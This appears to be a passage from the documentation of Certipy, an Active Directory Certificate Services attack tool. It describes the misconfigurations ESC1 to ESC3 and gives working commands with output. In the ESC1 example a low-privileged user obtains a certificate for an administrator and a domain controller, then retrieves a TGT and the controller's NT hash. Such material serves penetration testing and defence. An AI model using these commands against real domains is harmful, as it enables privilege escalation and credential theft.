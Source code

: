 #### ESC1

ESC1 is when a certificate template permits Client Authentication and allows the enrollee to supply an arbitrary Subject Alternative Name (SAN).

For ESC1, we can request a certificate based on the vulnerable certificate template and specify an arbitrary UPN or DNS SAN with the `-upn` and `-dns` parameter, respectively.

```bash
$ certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC1-Test -upn administrator@corp.local -dns dc.corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 780
[*] Got certificate with multiple identifications
    UPN: 'administrator@corp.local'
    DNS Host Name: 'dc.corp.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_dc.pfx'
```

It is also possible to specify only a UPN or a DNS. In the case where both a UPN and DNS are specified, the `auth` command will ask you which identity to authenticate as.

```bash
$ certipy auth -pfx administrator_dc.pfx -dc-ip 172.16.126.128
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@corp.local'
    [1] DNS Host Name: 'dc.corp.local'
> 1
[*] Using principal: dc$@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'dc.ccache'
[*] Trying to retrieve NT hash for 'dc$'
[*] Got NT hash for 'dc$@corp.local': 36a50f712629962b3d5a3641529187b0
```

#### ESC2

ESC2 is when a certificate template can be used for any purpose. Since the certificate can be used for any purpose, it can be used for the same technique as with ESC3 for most certificate templates. See below.

#### ESC3

ESC3 is when a certificate template specifies the Certificate Request Agent EKU (Enrollment Agent). This EKU can be used to request certificates on behalf of other users.

First, we must request a certificate based on the vulnerable certificate template ESC3.
